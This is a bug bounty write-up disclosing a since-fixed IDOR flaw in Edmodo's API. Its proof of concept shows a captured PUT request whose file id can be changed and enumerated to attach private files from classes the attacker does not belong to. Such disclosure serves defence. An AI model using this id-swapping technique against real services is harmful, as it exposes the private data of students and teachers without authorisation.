 ```yaml
---
tags: bugbounty
---
```


# What is Edmodo ?

It's a platform to connect teachers-students-parents. Kind of social networking for learning.

# Functionality

* Edmodo is having a functionality called classes.
* A teacher can create a class and invite students to join the class.
* Teachers generally upload their notes/assignments/files etc inside a class.
* Classes are private & only those students who are having an invitation can access the content posted inside that class.
* With this bug, I was able to access the private attachments of any class without being a member of it.

# Proof Of Concept

1. From a teacher’s edmodo account, go to your class and capture the request for editing a post (the post should have an attachment).
2. Request looks like:

    ```
    PUT /messages/693960217?access_token=xyz&request_origin=react-web-app HTTP/1.1
    Host: api.edmodo.com
    Connection: close
    Content-Length: 180
    Accept: application/json
    Origin: https://new.edmodo.com
    User-Agent: Mozilla/5.0
    Content-Type: application/json
    Referer: https://new.edmodo.com/groups/my-class-1234
    Accept-Language: en-US,en;q=0.9
    {“content”:{“id”:693960217,”text”:”Final notes”,”attachments”:{“files”:[{“id”:910143311}],”links”:[],”embeds”:[]}},”id”:693960217,”url”:”https://api.edmodo.com/messages/693960217"}

    ```
3. It is taking **“files”:[{“id”:910143311}]** parameter and attaching the file with the given id in your post. An attacker can change that id to any number and that file will be linked to his post (file ids can be enumerated by incrementing/decrementing the captured value). 

## Video POC

[![Edmodo IDOR POC](https://img.youtube.com/vi/h55s-_ZBADE/0.jpg)](https://youtu.be/h55s-_ZBADE)


## Timeline

* Mar. 17, 2019 — Initial Report
* Mar. 18, 2019 — Report Triaged
* Mar. 25, 2019 — Bug Fixed and Swag Awarded